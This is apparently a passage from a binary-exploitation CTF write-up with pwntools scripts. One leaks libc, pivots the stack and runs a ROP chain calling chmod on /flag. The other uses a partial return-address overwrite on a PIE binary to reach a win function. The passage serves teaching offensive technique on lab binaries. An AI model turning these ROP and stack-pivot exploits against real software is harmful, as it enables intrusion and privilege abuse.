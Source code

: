 ```python
        time.sleep(0.2)
        p.recvuntil(b'Leaving!\n')  # TODO: check this on real exploit mode
        puts_addr_bytes = p.recv(6)
        puts_addr = int.from_bytes(puts_addr_bytes, "little")
        libc_base = puts_addr - libc_puts
        assert(libc_base & 0xfff == 0)
        libc_environ_addr = libc_base + libc_environ
        libc_chmod_addr = libc_base + libc_chmod
        print(f'libc_base:{hex(libc_base)}')

        # PHASE 2.0 - pivot stack
        buf_2 = b''
        buf_2 += p64(pop_rbp_ret)
        buf_2 += p64(shellcode + 24)
        buf_2 += p64(leave_ret)
        buf_2 += p64(0x4141414141414141)  # newer rbp value

        # PHASE 2.1 - trigger chmod
        flag_addr = shellcode + 0x100
        buf_2 += p64(pop_rdi_ret)
        buf_2 += p64(flag_addr)
        buf_2 += p64(pop_rsi_ret)
        buf_2 += p64(0xffff)
        buf_2 += p64(0x4242424242424242)  # r15 crap
        buf_2 += p64(libc_chmod_addr)
        buf_2 += b'/flag\x00\x00\x00' * 0x100
        p.send(buf_2)
        time.sleep(0.2)
        

if __name__ == '__main__':
    main()
```

## Challenge 10

Now, the binary is also PIE. We would now perform partial write, pivoting the stack, in order to execute win. 

This challenge is tricky - while this seems like some kinda trivial stack pivoting, upon returning from challenge into main’s frame, the function pointer of `win`, which is located on the stuck, is corrupted by the preceding `puts` call. Hence we are required to overwrite the LSB of main’s return address, so that we would skip that puts call. 

```python
def main(): 
        # p = gdb.debug(BINARY, GDB_SCRIPT)
        p = process(BINARY)
        time.sleep(0.2)
        p.recvuntil(b'is located at: ')
        input_addr = int(p.recv(14), 16)
        print(f'input_addr:{hex(input_addr)}')

        # PHASE 1.0 - pivot stack
        buf_1 = b'\x41' * 104
        buf_1 += p64(input_addr - 0x10)  # new value for rbp, that will be set by main's 'leave'
        buf_1 += b'\x91' # VERY tricky - skip the puts call, as it corrupts the fp located on the stack! directly return into main's 'leave'
        p.send(buf_1)

        p.interactive()

if __name__ == '__main__':
    main()
```
